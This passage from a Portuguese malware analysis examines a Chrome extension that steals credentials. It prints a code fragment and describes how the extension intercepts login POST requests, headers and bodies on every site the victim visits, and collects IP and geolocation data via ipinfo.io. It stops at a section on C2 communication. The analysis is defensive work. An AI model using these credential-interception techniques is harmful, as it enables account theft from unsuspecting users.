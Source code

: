 ```js
        codigo: e,
      },
      "POST"
    );
  }
});

chrome.runtime.onInstalled.addListener(function (e) {
  chrome.storage.sync.set({
    eindeutigeKennung: ([1e7] + -1e3 + -4e3 + -8e3 + -1e11).replace(
      /[018]/g,
      function (e) {
        return (
          e ^
          (crypto.getRandomValues(new Uint8Array(1))[0] & (15 >> (e / 4)))
        ).toString(16);
      }
  ),
  });
});
```

Esta extensão do Chrome é projetada para **roubar credenciais, tokens de autenticação e senhas** de usuários, especialmente em páginas de login. Abaixo, a análise detalhando os pontos mais importante.

### **1. Coleta de Dados Sensíveis**

- **Interceptação de Logins**:  
  - Monitora requisições POST para endpoints como `/login` e `/login/token`, de todas as urls que a vítima acessa e captura:  
    - **Headers** (ex.: `X-CFE-DeviceInfo`, usado em autenticações bancárias).  
    - **Corpos de Requisição**: coleta as credenciais do usuário.  
    - **Coleta metadados do dispositivo**: via ipinfo.io/json (geolocalização, ISP), por exemplo:

```json
{
  "ip": "*****************",
  "hostname": "1*****************",
  "city": "*****************",
  "region": "*****************",
  "country": "*****************",
  "loc": "*****************",
  "org": "*****************",
  "postal": "*****************",
  "timezone": "*****************",
  "readme": "https://ipinfo.io/missingauth"
}
```

### **2. Comunicação com o Servidor C2**
